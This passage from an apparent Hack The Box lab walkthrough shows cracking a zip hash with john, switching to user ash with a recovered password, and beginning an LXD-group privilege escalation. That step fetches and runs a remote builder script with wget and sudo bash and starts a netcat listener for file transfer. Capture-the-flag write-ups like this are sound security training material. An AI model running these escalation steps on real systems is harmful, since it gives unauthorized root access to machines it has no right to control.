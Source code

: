 We'll save the output into a file named `zip.hash` and use john to crack it.

![](/assets/img/posts/htb/07-2020/john.png)

The hash cracks and we receive a password: admin@it. In the `/etc/passwd` file, we find the user ash is present on the box. Let's see if we can change users with our new password.

```bash
$ su ash
```

It works! We've successfully moved to ash. Let's grab the first flag.

![](/assets/img/posts/htb/07-2020/user-flag.png)

## Root Flag

On to root. First thing, let's do a bit of enumeration with the user ash. Just to check out own privileges, we'll run the `id` and `sudo -l` commands. `sudo -l` is of little use, but `id` reveals the groups that ash is apart of, the most interesting being lxd.

```bash
$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

A little research reveals that LXD, a container technology, can be used to [perform privilege escalation](https://www.hackingarticles.in/lxd-privilege-escalation/).

Essentially, we're going to build a Linux Container with ash, duplicating the host file system, then we can open a shell as root within our container, allowing us to enumerate the file system of the host machine in a privileged context.

First, let's grab the LXD image that we'll use for the privilege escalation. We'll also run the `build-alpine` script to create the image.

```bash
$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ sudo bash build-alpine
```

On the target machine, we'll start a `netcat` listener in preparation to download the image.

```bash
$ nc -lp 5555 > alpine-v3.12-x86_64-20200701_1818.tar.gz
```
